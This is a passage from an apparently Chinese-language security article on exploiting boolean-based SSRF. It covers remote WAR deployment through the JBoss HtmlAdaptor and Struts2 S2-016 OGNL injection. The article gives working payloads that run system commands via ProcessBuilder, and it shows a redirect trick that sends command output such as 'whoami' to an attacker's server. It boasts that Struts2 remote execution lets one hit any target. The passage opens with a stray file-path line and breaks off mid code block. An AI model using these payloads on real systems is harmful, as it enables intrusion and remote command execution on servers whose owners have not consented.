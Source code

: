 ```

通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

```
/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}

```

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里

### 3.Payload Result

获取Payload Result是十分有必要的,这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法。

0x04 Struts2在Bool型SSRF中的利用
==========================

* * *

下面是S2-016的POC:

```
/action?action:%25{3*4}
/action?action?redirect:%25{3*4}

```

通过对连个POC的理解, 我们知道下面的POC中的redirect是实现URL跳转,通过URL跳转来验证S2-016漏洞.

![enter image description here](http://drops.javaweb.org/uploads/images/529745b5b154a78b80af324bd28bcf1d94b157d7.jpg)

当然也可以通过“`?redirect:http://www.baidu.com`”来验证. 那么我们是否可以通过”`?redirect:http://SERVER/%25{3*4}`” 将%25{3*4}的执行结果作为SERVER的URL的一部分发送到远端服务器, 通过实验我们证实了这样的想法.

![enter image description here](http://drops.javaweb.org/uploads/images/854122044ee4df525eaa1f791561f6e791eb8fd2.jpg)

下面我们尝试S2-016的命令执行POC,执行结果如下:

```
?redirect:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}

```

![enter image description here](http://drops.javaweb.org/uploads/images/3639999375192a0045ede6c66e6d3cdf4e2a080f.jpg)

特此说明一下,这里返回`java.lang.ProcessImpl@xxxxxx`表示命令执行成功, 将命令执行的结果通过redirect跳转输出到远程服务器.

```
?redirect:http//SERVER/%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start()}
